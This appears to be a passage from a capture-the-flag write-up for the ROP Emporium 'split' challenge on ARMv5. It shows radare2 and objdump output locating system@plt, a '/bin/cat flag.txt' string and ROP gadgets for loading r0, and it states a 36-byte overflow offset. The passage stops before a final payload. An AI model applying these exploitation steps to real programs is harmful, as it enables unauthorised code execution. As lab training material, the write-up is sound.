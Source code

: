 ```py
```

Then we get out flag.

## ARMv5

Lets use r2 to check out the usefulFunction.

```bash
$ r2 split_armv5
[0x00010428]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x00010428]> s sym.usefulFunction
[0x000105d4]> pdf
┌ 24: sym.usefulFunction ();
│   0x000105d4      00482de9       push {fp, lr}
│   0x000105d8      04b08de2       add fp, sp, 4
│   0x000105dc      08009fe5       ldr r0, [str._bin_ls]       ; [0x105ec:4]=0x106c8 str._bin_ls
│   0x000105e0      81ffffeb       bl sym.imp.system           ; int system(const char *string)
│   0x000105e4      0000a0e1       mov r0, r0
└   0x000105e8      0088bde8       pop {fp, pc}
```

I haven't had much luck manually finding the offset, but we know that it is 36 since the website told us. We could just repeatedly fuzz the input and check the registers but whatever. We can again find the /bin/cat flag.txt using the same method as before. Finding the system@plt is a bit different since objdump won't work without building an ARM-specific version so lets do that. get and build the toolchain from [here](http://osmocom.org/projects/baseband/wiki/toolchain).

```bash
$ arm-none-eabi-objdump -d split_armv5 | grep system@plt
000103ec <system@plt>:
   105e0:	ebffff81 	bl	103ec <system@plt>
```

So our `bl system()` address is 0x103ec and the /bin/cat flag.txt address is 0x2103c. passing the argument into the function is different than the previous methods as ARM is RISC and x86 is CISC. we must pass it into $r0. check out [this azeria labs post on ARM32 ROP](https://azeria-labs.com/return-oriented-programming-arm32/). In order to find the ROP gadgets we can use r2.

```bash
$ r2 split_armv5
[0x00010428]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x00010428]> /R | grep pop
  0x00010644           f087bde8  pop {r4, r5, r6, r7, r8, sb, sl, pc}
[0x00010428]> /R | grep r0
 0x00010634           0700a0e1  mov r0, r7
[0x00010428]> /R | grep r3
  0x00010658           0880bde8  pop {r3, pc}
[0x00010428]> s 0x10634
[0x00010634]> pdf
  0x00010634      0700a0e1       mov r0, r7
  0x00010638      33ff2fe1       blx r3
```
